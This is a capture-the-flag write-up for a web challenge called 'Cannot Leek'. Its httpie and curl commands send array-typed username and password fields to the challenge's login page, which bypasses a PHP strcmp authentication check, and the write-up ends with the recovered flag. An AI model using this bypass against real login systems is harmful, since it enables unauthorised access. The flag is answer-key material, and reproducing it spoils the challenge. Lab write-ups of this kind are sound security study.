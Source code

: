 # Cannot Leek

---

### Challenge Description

> Here is another really shoddily coded login page. I made very sure not to append user inputs to my query this time. There's absolutely no way you can break in now right?

> Note: please attempt this without using automated tools.

> Concept(s) Required: PHP strcmp

---

### Challenge Solution

With some googling, we find this [writeup](https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/)

```sh
http --form POST http://3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:50201/login.php username[]='lol' password[]='lol'
```

```sh
curl -XPOST http://3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:50201/login.php -d "username[]=hi&password[]=hi"
```

![image](https://user-images.githubusercontent.com/76640319/115980686-361be100-a5c1-11eb-9eee-cc6004824b0e.png)

```
CTFSG{mfw_d3v_c4nt_3v3n_c0d3_pr0p3rly}
```

